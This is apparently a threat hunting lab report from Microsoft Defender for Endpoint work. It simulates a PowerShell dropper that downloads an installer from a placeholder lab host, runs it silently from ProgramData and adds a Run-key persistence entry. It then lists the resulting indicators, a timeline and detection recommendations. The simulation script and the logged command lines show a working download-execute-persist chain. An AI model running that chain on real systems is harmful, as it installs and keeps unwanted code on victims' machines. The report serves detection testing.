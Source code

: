 # Threat Hunt Report: Silent PowerShell Dropper with Persistence

## 1. Executive Summary
This hunt investigated potential adversary behavior involving PowerShell one-liners used to download and silently install executables into `C:\ProgramData\`, followed by persistence creation via Windows Run keys. The objective was to validate whether this technique was present in the environment and to assess the effectiveness of Microsoft Defender detections.

**Result:** The scenario was successfully simulated in a controlled VM environment. Indicators were captured in Microsoft Defender Advanced Hunting queries, demonstrating the ability to detect this type of malicious activity.

---

## 2. Scope
- **Environment:** Windows 10 VM onboarded into Microsoft Defender for Endpoint
- **Timeframe:** Past 7 days
- **Data sources:**
  - DeviceProcessEvents
  - DeviceNetworkEvents
  - DeviceFileEvents
  - DeviceRegistryEvents

---

## 3. Hypothesis
If an adversary abused PowerShell to download and silently execute an `.exe` from the internet, we should observe:
1. PowerShell execution with suspicious command-line parameters.
2. File creation of an executable in `C:\ProgramData`.
3. Silent execution of that file with `/S` or `/quiet` flags.
4. Registry persistence written to `HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run`.

---

## 4. Actions Performed
1. **Simulation:**
   ```powershell
   $uri  = "https://<labhost>/7z2408-x64.exe"
   $out  = "C:\\ProgramData\\7z2408-x64.exe"
   Invoke-WebRequest -Uri $uri -OutFile $out
   Start-Process $out -ArgumentList "/S" -Wait
   New-ItemProperty -Path "HKCU:\\Software\\Microsoft\\Windows\\CurrentVersion\\Run" `
     -Name "Updater" -Value "C:\\ProgramData\\7z2408-x64.exe" -PropertyType String -Force
   ```

2. **Hunting Queries Executed:**
   - Suspicious PowerShell execution (DeviceProcessEvents)
   - Network connections initiated by PowerShell (DeviceNetworkEvents)
   - File creation in ProgramData (DeviceFileEvents)
   - Silent installer execution (DeviceProcessEvents)
   - Registry Run-key persistence (DeviceRegistryEvents)
   - Unified timeline correlation (union query)

---

## 5. Findings
- **Process Evidence:** PowerShell executed with `Invoke-WebRequest` and `/S` flags.
- **Network Evidence:** Outbound HTTP request to `<labhost>` from PowerShell.
- **File Evidence:** Creation of `7z2408-x64.exe` under `C:\ProgramData`.
- **Execution Evidence:** Silent execution of the dropped file.
- **Registry Evidence:** Run key persistence created for `Updater` pointing to the executable.

---

## 6. Indicators of Compromise (IoCs)
- **File Path:** `C:\ProgramData\7z2408-x64.exe`
- **Registry Key:** `HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\Updater`
- **Process CommandLines:**
  - `powershell.exe Invoke-WebRequest -Uri https://<labhost>/7z2408-x64.exe -OutFile C:\ProgramData\7z2408-x64.exe`
  - `C:\ProgramData\7z2408-x64.exe /S`
- **Network Indicators:**
  - Remote URL: `https://<labhost>/7z2408-x64.exe`
  - RemoteIP: `<labhost IP>`

---

## 7. Timeline of Events
| Time (UTC) | Evidence Type | Details |
|------------|---------------|---------|
| T0         | Process       | PowerShell executed with download command |
| T0+1m      | Network       | HTTP GET to `<labhost>/7z2408-x64.exe` |
| T0+2m      | File          | File created in `C:\ProgramData` |
| T0+3m      | Process       | Silent execution of downloaded EXE |
| T0+4m      | Registry      | Run key persistence created |

---

## 8. Recommendations
- **Preventive Controls:**
  - Enable Attack Surface Reduction (ASR) rules:
    - Block process creations from PS/Command Prompt
    - Block executable content from email/webmail downloads
  - Restrict write access to `C:\ProgramData\`.
  - Enable PowerShell logging (ScriptBlock and Module).
- **Detection Enhancements:**
  - Create a custom detection rule for silent installers executed from ProgramData.
  - Create an alert for Run-key persistence referencing executables.
- **Response Playbook:**
  - Isolate affected host.
  - Remove malicious file and registry entry.
  - Reset credentials if compromise suspected.
  - Conduct mailbox review for related phishing attempts.

---

## 9. Conclusion
This hunt successfully validated detection coverage for a common attacker TTP (T1059.001 – PowerShell, T1547.001 – Registry Run Keys/Startup Folder). The environment is capable of identifying these behaviors, and further improvements can be made by operationalizing the detection rules into continuous monitoring.

---

## 10. Appendices
- **Screenshots:** Attach Advanced Hunting query results here.
- **KQL Queries:** Provided in the Threat Hunt Scenario README.
- **MITRE ATT&CK Mapping:**
  - **T1059.001** – PowerShell
  - **T1105** – Ingress Tool Transfer
  - **T1547.001** – Registry Run Keys/Startup Folder
